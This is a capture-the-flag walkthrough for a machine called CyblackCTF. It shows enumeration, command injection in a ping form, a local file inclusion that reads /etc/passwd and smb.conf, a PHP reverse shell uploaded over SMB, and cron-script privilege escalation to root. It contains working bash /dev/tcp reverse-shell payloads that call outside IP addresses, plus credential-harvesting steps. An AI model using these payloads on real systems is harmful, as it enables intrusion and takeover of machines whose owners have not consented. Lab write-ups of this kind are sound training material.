# CyblackCTF

**Target**: `143.198.131.19`
**OS**: `Linux`
**Category**: `Enumeration, Web, LFI, Privilege Escalation`
**Creator**: `Abidakun Samuel` [Link](https://linkedin.com/in/abidakun-samuel)

There are 2 known routes you can take to gain initial access to the machine, i will be showing both routes.

# Route 1

First up, we perform an Nmap Scan to discover open ports and services running on the target.

```shell
# Nmap 7.94SVN scan initiated Tue Apr  2 10:08:43 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan 143.198.131.19
Warning: 143.198.131.19 giving up on port because retransmission cap hit (6).
Nmap scan report for 143.198.131.19
Host is up (0.21s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE    SERVICE     VERSION
22/tcp  open     ssh         OpenSSH 9.3p1 Ubuntu 1ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cf:10:8d:4d:40:17:08:97:8c:b4:6d:8c:45:10:bc:ee (ECDSA)
|_  256 cf:8a:e5:67:8e:08:06:1a:76:99:84:56:a0:43:e1:66 (ED25519)
25/tcp  filtered smtp
80/tcp  open     http        Apache httpd 2.4.57 ((Ubuntu))
|_http-title: Cyblack Ethical Hacking Exercise
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.57 (Ubuntu)
139/tcp open     netbios-ssn Samba smbd 4.6.2
445/tcp open     netbios-ssn Samba smbd 4.6.2
587/tcp open     tcpwrapped
|_smtp-commands: Couldn't establish connection on port 587
OS fingerprint not ideal because: Host distance (17 network hops) is greater than five
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-04-02T09:10:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   3.32 ms  192.168.0.1
2   ...
3   27.06 ms 10.10.25.73
4   23.93 ms 143.198.131.19

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  2 10:12:04 2024 -- 1 IP address (1 host up) scanned in 200.36 seconds
```

Syntax:

```shell
sudo nmap -sCV -A -p- -T4 --min-rate=1000 143.198.131.19 -O -oN scan
```

Switches:

- `-sCV or -sC -sV`: Version detection and Default scripts.
    
- `-A`: Aggressive scan.
    
- `-p-`: Scan all ports.
    
- `-T4`: Set timing template (higher is faster). Ranges from 0-5
    
- `--min-rate=1000`:  Set minimum rate of packets to send per second. In this case, it's set to 1000 packets per second.
    
- `-O`: Enable OS detection.
    
- `-oN scan`: Saves scan output in normal format to a file named "scan".

Nmap scan reveals there is a http website running on port 80, an SMB server running on 445, SSH running on port 22. Theses are the ports we should be concerned with.

First up, taking a look at the site running on port 80:




Nothing of interest to find on the site, the links don't take us anywhere.

Taking a look at the `robots.txt` file which was discovered by the nmap scan:



Nothing to find here also.

Next thing is to perform a directory scan to discover any hidden files or pages. I will be using `ffuf` for this.



Syntax:

```shell
ffuf -u http://143.198.131.19/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt:FUZZ
```

Switches:

- `-u`: URL

- `-w`: wordlist 

We find a directory but it's forbidden `403`.



It is still possible to have access to sub-directories or files with this forbidden directory. So let's try this.

Using a smaller wordlist this time:



`-fc`: Filter HTTP status codes from response

No sub-directories found, so we can try looking for common file types like `.php .txt`



Syntax:
```shell
ffuf -u http://143.198.131.19/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt:FUZZ -fc 403
```

We have a page `widget.php`.

Now why did i try a PHP extension? Well because:
1. It's a common language used to build websites.
2. Using [wappalyzer](https://www.wappalyzer.com/) on the `/admin` directory reveals the website is running on PHP.


Something we couldn't find out on the actual homepage and even using tools like `whatweb`

Now let's take a look at the `widget.php` page:



We have a tool here that can be used to ping IP addresses



Now when i see this as an attacker, the first attack vector i think of is command injection.

**What is Command Injection?**

A **command injection** permits the execution of arbitrary operating system commands by an attacker on the server hosting an application. As a result, the application and all its data can be fully compromised. The execution of these commands typically allows the attacker to gain unauthorized access or control over the application's environment and underlying system. [read more](https://book.hacktricks.xyz/pentesting-web/command-injection)

In the linux terminal, you can run multiple commands by separating each by a semi-colon `;` as seen in the image.



So we can test a simple command injection payload by adding ls after the IP address:


It works, so how can we exploit this to gain a shell?

Well we can use a reverse shell payload to connect back to a netcat listener. If you don't understand what this is then read up on reverse shells.

First up, one important thing to note is that our target is not on our local network as is the case with most CTFs (Hackthebox, Tryhackme, Pwntilldawn). So in our reverse shell payload we can't make use of our private IP address or VPN IP address. We have to use a public address.

A very easy way to do this is through Port forwarding. 

Port forwarding, also known as port management, **allows remote servers and devices on the internet to be able to access devices that are on a private network**. 

I will walk you through the steps on how to use [ngrok](https://ngrok.com/) to do this.

You can skip this section if you already know how to do this with other tools or methods

---
## Setting up ngrok

**Note**: This is for linux users only, If you're on windows then follow this [documentation](https://ngrok.com/docs/guides/device-gateway/windows/) 

**Step 1**: Create a free ngrok account https://ngrok.com/


**Step 2**: Install the ngrok Agent

Download the ngrok binary for your distro. Go to this site and select linux and choose `x86-64` and click download.



Open your terminal and navigate to the location of your downloaded file and run

```shell
sudo tar xvzf file.tgz -C /usr/local/bin
```



In my case i stored my file in `~/Downloads/Software`

If you are having issues with this method for some reason, then you can also download using `Apt`

```shell
 curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```

After you can installed ngrok, it is now time to link it to your account created earlier.

Open your terminal and type:

```shell
ngrok authtoken NGROK_AUTHTOKEN
```

Replace `NGROK_AUTHTOKEN` with your own token. You can find it on your ngrok [dashboard](https://dashboard.ngrok.com/get-started/your-authtoken):



Now run the command:



**Step 3**: Test that ngrok has been configured successfully

We are going to test by Enabling SSH access

Open your terminal and ensure you have your SSH service running

```shell
systemctl status ssh
```

As seen, mine is disabled so i have to enable it.



To start and enable type the commands:

```shell
systemctl start ssh
```

```shell
sudo systemctl enable ssh
```

Confirm

```shell
systemctl status ssh
```




SSH is now active and running.

Next step is to run:

```shell
ngrok tcp 22
```

This will open an ngrok interface: 



Now port forwarding is enabled. Ngrok has now assigned you a TCP address and a port.

To test, we will use another PC. Open up the terminal on another PC and run the following to connect back to your own PC:

```shell
ssh -p NGROK_PORT USER@NGROK_TCP_ADDRESS
```

- `NGROK_PORT`: The port number of the ngrok agent (i.e. if the agent shows `tcp://1.tcp.ngrok.io:12345`, your port number is `12345`.

- `USER`: The username of your PC.

- `NGROK_TCP_ADDRESS`: The address of the ngrok agent (i.e. if the agent shows `tcp://1.tcp.ngrok.io:12345`, your TCP address is `1.tcp.ngrok.io`.




Now ngrok is fully setup for port forwarding. You can close ngrok by just hitting CTRL + C

---

Now that we have ngrok setup, it's time to get a reverse shell on our target.

First up, we start ngrok on the same port we want our netcat listener on.

I will be using port 8000.



Hit enter



Next, i start a netcat listener on the same port



Now the reverse shell payload i will be using is this:

```shell
bash -c 'exec bash -i &>/dev/tcp/NGROK_IP/NGROK_PORT <&1'
```

We already have our ngrok PORT but to obtain the IP we can just ping the TCP ngrok address provided

For example:

```
ping 1.tcp.ngrok.io
```


now we have our complete payload:

```shell
bash -c 'exec bash -i &>/dev/tcp/3.126.224.214/10266 <&1'
```

Copy the payload and paste in the IP Address field on the site:



```
8.8.8.8; bash -c 'exec bash -i &>/dev/tcp/3.126.224.214/10266 <&1'
```

Hit ping and after a few seconds netcat should catch a shell:



And that's it for the first Route of initial access.

# Route 2:

Taking a look at our nmap scan:

```shell
# Nmap 7.94SVN scan initiated Tue Apr  2 10:08:43 2024 as: nmap -sCV -A -p- -T4 --min-rate=1000 -O -oN scan 143.198.131.19
Warning: 143.198.131.19 giving up on port because retransmission cap hit (6).
Nmap scan report for 143.198.131.19
Host is up (0.21s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE    SERVICE     VERSION
22/tcp  open     ssh         OpenSSH 9.3p1 Ubuntu 1ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 cf:10:8d:4d:40:17:08:97:8c:b4:6d:8c:45:10:bc:ee (ECDSA)
|_  256 cf:8a:e5:67:8e:08:06:1a:76:99:84:56:a0:43:e1:66 (ED25519)
25/tcp  filtered smtp
80/tcp  open     http        Apache httpd 2.4.57 ((Ubuntu))
|_http-title: Cyblack Ethical Hacking Exercise
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.57 (Ubuntu)
139/tcp open     netbios-ssn Samba smbd 4.6.2
445/tcp open     netbios-ssn Samba smbd 4.6.2
587/tcp open     tcpwrapped
|_smtp-commands: Couldn't establish connection on port 587
OS fingerprint not ideal because: Host distance (17 network hops) is greater than five
No OS matches for host
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: , NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-04-02T09:10:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   3.32 ms  192.168.0.1
2   ...
3   27.06 ms 10.10.25.73
4   23.93 ms 143.198.131.19

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Apr  2 10:12:04 2024 -- 1 IP address (1 host up) scanned in 200.36 seconds
```

We can see there is an SMB server running on port 445. First thing to do when you see this is to list SMB shares running on the server using `smbclient`:



**We don't have a password so just press ENTER**

Syntax:

```shell
smbclient -L IP
```

There are 4 shares listed. Checking the shares 1 by 1 using the syntax:

```shell
smbclient \\\\143.198.131.19\\SHARE
```

**No password**

No access to `print` share



**Note: I used `\` for shell escape because the terminal will want to interpret the `$` sign as something else**

We have access to the `general` share:



We have a file here so i download it to our current directory using the command `get`.

Here we have some information



There is a directory on the website `/obscure_endpoint.html` that we can take a look at. But before that let's check the other shares.

`development` share


Anther file here.

Content:



Nothing here.

`/obscure_endpoint.html` webpage:



We have a page for viewing pictures.

Only 3 pictures here.



Viewing all 3 pictures display the contents of the file `vulnerable.php` which just looks like binary content.


Let's take a closer look at what is happening here using a tool called `burpsuite`.

You can setup burpsuite by following the guide [here](https://portswigger.net/burp/documentation/desktop/external-browser-config)

So i turn on my foxyproxy and startup burpsuite.



Next up, i add the target `http://143.198.131.19/` to scope so as to prevent excessive traffic in burp.

Target > Scope > Add > Paste target URL > Click OK





Next up is to navigate to Proxy > HTTP History.

If you have a lot of results here then you can easily clear them by selecting all the requests `CTRL + A` 



The Right Click and select Delete item.

Now go back to the website and click on `view picture`



Burpsuite should have captured the request.

Head back to burp and inspect the request.



Right click on anywhere in the request window and select `Send to Repeater` or just Hit `CTRL + R`

Navigate to repeater, you should now see your request



So now, we can see a POST request is sent to the `/vulnerable.php` endpoint and there is a filename parameter with a value of `picture1.jpg`



Earlier we saw that there are only 3 pictures right? But what happens when we change it to `picture4.jpg` or any value at all? 

Let's find out. Change it and hit `Send`

**Request**:



**Response**:


In the response, we get a 200 OK and some error displayed on the page. You can select `Render` to view the actual webpage



This is a very interesting error because we have some information about the application now. Our current directory is `/var/www/html` and that is where all the files `picture1.jpg, picture2.jpg, picture3.jpg, vulnerable.php` are stored and probably some other files too. It shows the application can't find the file `picture4.jpg` specified in its current directory.

Now as an attacker, from experience this indicates a presence of LFI (Local File Inclusion) vulnerability.

**What is LFI (Local File Inclusion)?**

Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected.

Since LFI occurs when paths passed to `include` statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters.

Consider the following example:

`http://vulnerable_host/preview.php?file=example.html`

This looks as a perfect place to try for LFI. If an attacker is lucky enough, and instead of selecting the appropriate page from the array by its name, the script directly includes the input parameter, it is possible to include arbitrary files on the server.

Typical proof-of-concept would be to load passwd file:

`http://vulnerable_host/preview.php?file=../../../../etc/passwd`

If the above mentioned conditions are met, an attacker would see something like the following:



[Read more](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)

Now with this knowledge we can test for this vulnerability by trying to read the `passwd` file stored in the `/etc` directory.

My short explanation:

In the linux terminal, if we want to go back 1 step in a directory we can do `cd ..` 2 steps `cd ../..` 3 steps `cd ../../..` you get the point. 



we can also do this:



So in the case of our target, the current directory is `/var/www/html` which means if we are to do `../../../etc/passwd` we should be able to see the contents of a file in another directory right?

Let's find out

Request:



Response:



It works and we are able to see valid users on the system



Now how do we leverage this?

Remember the SMB share we had access to earlier? `general and development`

Well we can try uploading  a reverse shell payload to one of those shares, setup a netcat listener, and then use this LFI vulnerability to gain shell access to the server.

Which share do we have write access to? Let's find out.

I will be using this PHP reverse shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Using ngrok, obtain an IP address and a PORT.

Then edit the reverse shell file and insert your IP and PORT here



Close and save, now to upload the file to an SMB share.

Let's try the `general` share:

Connect to the share using smbclient (make sure to start it in the same directory as your reverse shell)



No write access to this share.

Let's try the `development` share:



We have write access and the file has been uploaded successfully.

Now how do we know where this file is sotred? well we can check the smb configuration file `smb.conf` usually located at `/etc/samba/smb.conf`.

Request:



Response:



Yes, we can read the file. To save time we can just search for the share name `development`



Located at the bottom of the page, we can see the path to the share is `/srv/samba/development` which means to execute our payload we have to navigate to `../../../../srv/samba/development/shell.php`.

First up we setup a netcat listener:



**Same port you started ngrok on**

Execute the payload and catch a shell.

Request:


There will be no response but on our terminal we have a shell:



Next step is to stabilize the shell. 

Enter the following to do so

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Hit Ctrl + Z (to background shell)

```shell
stty raw -echo;fg
```

Press ENTER 




# User.txt Flag

Now to get the user.txt flag.

We don't have access to the home directory of the user `cyblack-user`



Which means we need to perform a horizontal privilege escalation to the user. Horizontal privilege escalation is **when a user gains the access rights of another user who has the same access level as he or she does**.

First up is to perform privilege escalation enumeration. I will be using an automated script called [linpeas](https://linpeas.sh/). Download the script with the link provided.

Next is to transfer the script to our target. 

First up start a python server on the same port you started ngrok and in the same directory as you linpeas script:



```shell
python -m http.server
```

On target machine, navigate to the `/tmp` directory and download the file there using wget



```shell
wget http://NGROK_IP:NGROK_PORT/linpeas.sh 
```

Give the script executable permission and run it



```shell
chmod +x linpeas.sh
./linpeas.sh
```

Taking a look at the results:



We have a mysql configuration file here, these files contain valuable information at times.

File contents:



We have the username and password for the user.

Now we can SSH into the machine and have a proper shell



And we are in.

First flag obtained:




# Root.txt Flag

Now to escalate to the root user.

No sudo privileges 



Taking a look at the Desktop folder



We have a script here that belongs to the root user. Users in the crontab group have Read write and Execute access to the script.

Our user is part of the crontab group



Which means we can manipulate this script.



Checking crontab shows the script runs every 2 minutes.

How can we exploit this to gain root access?

By injecting a reverse shell payload into the script, setup a netcat listener and then wait for the script to execute and we gain a root shell.

Reverse shell payload:

```shell
bash -c 'exec bash -i &>/dev/tcp/3.68.171.119/18599 <&1'
```

This browser extension is called HackTools, search on google to get one for your browser.



Inserting the payload into the script



```shell
echo "bash -c 'exec bash -i &>/dev/tcp/3.68.171.119/18599 <&1'" > antivirus.sh
```

Setup a netcat listener on the same port as your ngrok:






And we have a shell as root.

Root flag obtained



The End.
